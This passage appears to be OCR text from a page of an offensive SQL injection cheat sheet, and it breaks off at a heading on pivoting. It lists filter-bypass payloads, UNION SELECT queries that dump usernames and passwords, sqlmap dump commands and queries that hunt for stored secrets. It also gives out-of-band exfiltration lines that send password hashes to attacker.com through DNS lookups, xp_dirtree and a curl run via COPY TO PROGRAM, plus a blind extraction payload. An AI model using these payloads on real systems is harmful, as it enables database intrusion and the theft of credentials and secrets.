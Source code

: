Payloads that bypass filtered characters
```sql
OR 1=1
OR TRUE
OR 1=1-- -
OR 1=1#
OR 1=1/*
OR 1 LIKE 1
OR 1 BETWEEN 0 AND 2
OR EXISTS(SELECT * FROM users)
```

# Exfiltration & pivoting

## Exfiltration techniques Data dumps (UNION SELECT) This is just a classic exfiltration

`    ?id=1 UNION SELECT id, username, password FROM users-- -`
if you know column count and types, you can dump entire tables. 
```sql
sqlmap -u URL --dump --batch
```

## exfil sensitive configs target values: AWS Keys, SMTP creds, API tokens, S3 buckets, internal IP/Domain

```sql
SELECT * FROM config;
SELECT * FROM settings;
SELECT * FROM env;
SELECT value FROM settings WHERE key LIKE '%secret%';
```

## Out-of-Band exfil Used in blind SQLi, great for stealth and bypassing WAFs MySQL DNS-based:

```sql
LOAD_FILE(CONCAT('\\\\',(SELECT password FROM users LIMIT 1),'\\.attacker.com\\')); MSSQL: exec xp_dirtree '\\attacker.com\share' PostgreSQL: COPY (SELECT password FROM users) TO PROGRAM 'curl http://attacker.com/data.txt'
```

## Boolean/time-based blind exfil

If UNION/errors don’t work: 

`1' AND SUBSTRING((SELECT password FROM users LIMIT 1),1,1) = 'a'-- -`

Automate with:

`sqlmap -u URL --technique=T --dbs`

## Pivoting and lateral movement
## In the application layer(SQL Access) look for ways to:
